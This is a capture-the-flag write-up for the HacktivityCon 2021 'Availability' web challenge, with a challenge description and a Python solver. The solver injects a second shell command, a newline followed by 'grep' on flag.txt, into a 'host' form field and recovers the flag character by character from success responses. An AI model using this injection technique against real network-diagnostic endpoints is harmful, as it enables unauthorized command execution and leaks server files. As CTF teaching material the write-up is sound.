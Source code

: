 ```yaml
---
name: Availability (2021)
event: HacktivityCon CTF 2021
category: Web
description: Writeup for Availability (Web) - HacktivityCon CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Availability

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/niPj8jYahV0/0.jpg)](https://youtu.be/niPj8jYahV0?t=5074s "HacktivityCon 2021: Availability")

## Challenge Description

> My schol was trying to teach people about the CIA triad so they made all these dumb example applications... as if they know anything about information security.
>
> They said they fixed the bug from the last app, but they also said they knew they went overboard with the filtered characters, so they loosened things up a bit. Can you hack it?

## Solution

```py
import requests
import string

flag = "flag."
url = "http://challenge.ctf.games:30669/"

# Each time a successful login is seen, restart loop
restart = True

while restart:
    restart = False
    # Loop through chars
    for i in string.ascii_lowercase + string.digits:
        payload = flag + i
        post_data = {'host': '127.0.0.1\x0Agrep ' + payload + ' flag.txt'}
        r = requests.post(url, data=post_data)
        # Correct char results in "successful password"
        if 'Success' in r.text:
            print(payload.replace('.', '{'))
            restart = True
            flag = payload
            # Exit if we have flag{32-hex
            if len(flag) == 37:
                print('\nFlag: ' + flag.replace('.', '{') + '}')
                exit(0)
            break
```
